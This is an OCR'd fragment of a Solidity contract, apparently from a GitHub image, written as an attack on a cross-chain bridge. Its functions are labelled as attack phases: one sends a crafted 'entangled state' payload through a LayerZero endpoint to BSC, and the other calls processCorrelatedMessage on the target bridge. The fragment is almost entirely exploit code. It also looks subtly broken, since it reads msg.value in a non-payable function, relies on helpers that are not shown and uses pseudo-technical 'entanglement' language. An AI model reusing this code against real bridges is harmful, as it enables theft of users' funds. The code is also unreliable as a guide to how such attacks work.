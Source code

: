 ```solidity
        bool initiated;
        bool executed;
        uint256 amount;
        address target;
        bytes32 messageHash;
    }

    constructor(address _lzEndpoint, address _bridge) {
        lzEndpoint = ILayerZeroEndpoint(_lzEndpoint);
        targetBridge = _bridge;
    }

    // ATTACK PHASE 1: Setup Cross-Chain Entanglement
    function initiateEntanglementAttack(
        address target,
        uint256 amount
    ) external {

        // Create entangled state across chains
        bytes memory payload = abi.encode(
            target,
            amount,
            block.timestamp,
            "ENTANGLED_STATE"
        );

        bytes32 attackId = keccak256(payload);
        attacks[attackId] = AttackState({
            initiated: true,
            executed: false,
            amount: amount,
            target: target,
            messageHash: attackId
        });

        // Send cross-chain message
        lzEndpoint.send{value: msg.value}(
            BSC_CHAIN_ID,
            abi.encodePacked(targetBridge),
            payload,
            payable(msg.sender),
            address(0),
            bytes("")
        );

        emit EntanglementInitiated(attackId, target, amount);
    }

    // ATTACK PHASE 2: Exploit State Correlation
    function exploitStateCorrelation(bytes32 attackId) external {

        AttackState storage attack = attacks[attackId];
        require(attack.initiated, "Attack not initiated");
        require(!attack.executed, "Already executed");

        // Create correlated state manipulation
        bytes memory correlatedPayload = createCorrelatedState(attack);

        // Execute correlated attack on second chain
        IBridge(targetBridge).processCorrelatedMessage(correlatedPayload);

        attack.executed = true;

```